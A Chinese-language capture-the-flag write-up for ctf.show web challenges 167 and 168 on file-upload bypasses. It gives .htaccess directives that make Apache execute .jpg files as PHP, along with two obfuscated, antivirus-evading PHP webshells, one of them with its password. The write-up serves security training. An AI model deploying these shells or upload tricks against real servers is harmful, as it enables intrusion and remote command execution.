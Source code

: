可以用蚁剑直接连接`http://28bac684-221f-4841-8c98-b81c4f551965.challenge.ctf.show:8080/upload/download.php?file=de9373c30bd8d73705a6d44209947715.zip`

![image-20230728020601373](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230728020601373.png)

### [web167].htaccess

根据提示上传了包含shell的jpg文件,上传成功,点击下载文件,发现没有存在文件包含点,访问upload检查是否有可执行文件,提示没有权限,但是发现中间件是Apache

![image-20230728103941301](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230728103941301.png)

.htaccess文件中写入

```
AddType application/x-httpd-php .jpg
<!-将jpg文件按照php文件解析-->
```

或者写入

```
Sethandler application/x-httpd-php
<!-将该目录及子目录下的文件均按照php文件解析执行-->
```

通过改包文件后缀名的方式上传.htaccess

![image-20230728105548335](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230728105548335.png)

随后上传带有一句话木马的jpg文件
![image-20230728105902636](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230728105902636.png)

hackbar命令执行或者蚁剑连接

### [web168]免杀马

png改包为php，但需要免杀马

```
<?php $bFIY=create_function(chr(25380/705).chr(92115/801).base64_decode('bw==').base64_decode('bQ==').base64_decode('ZQ=='),chr(0x16964/0x394).chr(0x6f16/0xf1).base64_decode('YQ==').base64_decode('bA==').chr(060340/01154).chr(01041-0775).base64_decode('cw==').str_rot13('b').chr(01504-01327).base64_decode('ZQ==').chr(057176/01116).chr(0xe3b4/0x3dc));$bFIY(base64_decode('NjgxO'.'Tc7QG'.'V2QWw'.'oJF9Q'.''.str_rot13('G').str_rot13('1').str_rot13('A').base64_decode('VQ==').str_rot13('J').''.''.chr(0x304-0x2d3).base64_decode('Ug==').chr(13197/249).str_rot13('F').base64_decode('MQ==').''.'B1bnR'.'VXSk7'.'MjA0N'.'TkxOw'.'=='.''));?>
```

蚁剑连接`*****/upload/1.php`

密码`TyKPuntU`

![image-20230728120650152](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230728120650152.png)

还有其他的免杀马：

```php
<?php
$a = "s#y#s#t#e#m";
$b = explode("#",$a);
$c = $b[0].$b[1].$b[2].$b[3].$b[4].$b[5];
$c($_REQUEST[1]);
?>
```
